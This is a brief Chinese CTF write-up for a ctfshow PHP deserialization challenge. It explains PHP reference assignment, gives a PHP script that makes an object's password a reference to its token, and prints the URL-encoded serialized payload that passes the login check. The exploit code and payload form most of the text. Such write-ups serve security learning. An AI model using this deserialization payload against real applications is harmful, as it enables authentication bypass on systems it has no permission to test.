

# 知识点
# 思路
考察php按地址传参<br />例如
```plsql
$a = 'Ki1ro';
$b = &$a; // 这样相当于把&a指向的地址传给了&b
$a = '1' // 当&a的值发生改变，$b也会发生改变
```
EXP
```plsql
<?php
  class ctfshowAdmin{
      public $token;
      public $password;

      public function __construct($t,$p){
          $this->token=$t;
          $this->password = $p;
      }
      public function login(){
          return $this->token===$this->password;
      }
  }
  $a = new ctfshowAdmin(1,2);
  $a->password = &$a->token;
  echo urlencode(serialize($a));
```
payload
```plsql
?ctfshow=
O%3A12%3A%22ctfshowAdmin%22%3A2%3A%7Bs%3A5%3A%22token%22%3Bi%3A1%3Bs%3A8%3A%22password%22%3BR%3A2%3B%7D
```


